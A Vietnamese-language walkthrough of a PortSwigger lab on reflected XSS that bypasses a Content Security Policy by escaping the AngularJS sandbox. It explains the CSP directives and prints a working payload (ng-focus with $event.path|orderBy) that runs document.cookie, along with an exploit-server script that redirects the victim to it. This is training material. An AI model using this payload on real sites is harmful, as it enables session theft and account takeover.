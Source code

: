 # Reflected XSS with AngularJS sandbox escape and CSP

> Độ khó: Expert

Mô tả       

> This lab uses [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) and [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/angularjs-sandbox).        
>
> To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses CSP, escapes the AngularJS sandbox, and alerts `document.cookie`.        

1.Step by step

Để giải quyết được bài này trước tiên chúng ta cần hiểu CSP (Content secutity policy) là gì, có thể đọc thêm thông tin [tại đây](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) và một số tips để bypass [tại đây](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

Về cơ bản nó là một cơ chế triển khai để chống các cuộc tấn công XSS, các tài nguyên có thể bao gồm image, iframe, javascript...

Ở lab này chúng ta thấy rằng sau khi tìm kiếm một chuỗi bất kì  như `<script>confirm()</script>` nó sẽ được reflected trong html, nhưng không thực thi code javascript do cơ chế bảo vệ khỏi xss, nhưng chưa mạnh nên vẫn có thể dễ dàng bypass

CSP được triển khai thông qua tiêu đề phản hồi:

![image](https://user-images.githubusercontent.com/68894302/172447507-b1969f69-ff84-4a89-b71e-ac08c5868f17.png)

+ **script-src** : Chỉ thị này chỉ định các nguồn được phép cho JavaScript. Điều này không chỉ bao gồm các URL được tải trực tiếp vào các phần tử mà còn bao gồm những thứ như trình xử lý sự kiện tập lệnh nội tuyến (onclick) và biểu định kiểu XSLT có thể kích hoạt thực thi tập lệnh. 
+ **default-src** : Chỉ thị này xác định chính sách tìm nạp (fetching) tài nguyên theo mặc định. Khi không có chỉ thị tìm nạp trong tiêu đề CSP, trình duyệt sẽ tuân theo chỉ thị này theo mặc định. 

​					=> Hai phần trên được gọi là các chỉ thị

+ **self** : Nguồn này xác định rằng việc tải các tài nguyên trên trang được phép từ cùng một miền. 

​					=> `self`: nguồn (resource)

=> Như vậy CSP đã chặn hết các sự kiện javascript qua `default-src 'self'` và `script-src 'self'` .

2.Khai thác

Tuy nhiên Angularjs có thể định nghĩa các sự kiện của riêng nó . Bên trong một sự kiện , AngularJS xác định một đối tượng `$event` chỉ đơn giản là tham chiếu đến đối tượng sự kiện của trình duyệt. Chúng ta có thể sử dụng đối tượng này để thực hiện bỏ qua CSP. 

Trên Chrome có một thuộc tính đặc biệt được goi là path, thuộc tính này chứa một mảng các đối tượng gây ra sự kiện được thực thi, `window` cuối cùng có thể được sử dụng để escape ra khỏi  sandbox. Sau đó chuyển mảng này đến bộ lọc `orderBy` chúng ta có thể liệt kê mảng và sử dụng `window` ddeer thực thi một hàm toàn cục, chẳng hạn như alert()

Đoạn code minh họa như sau

```
<input%20did=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27>#x
```

Sau khi encode

```
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
```

Payload sau sẽ store bên web exploit của victim (trong challenge này là exploit server) sau đó deliver để kích hoạt nó

``` javascript
<script>document.location="https://ac011f101f01dfdec0e345f700170034.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x";
</script>
```

![image](https://user-images.githubusercontent.com/68894302/172451546-231b3b63-41a3-430b-a568-8cd19d4976cb.png)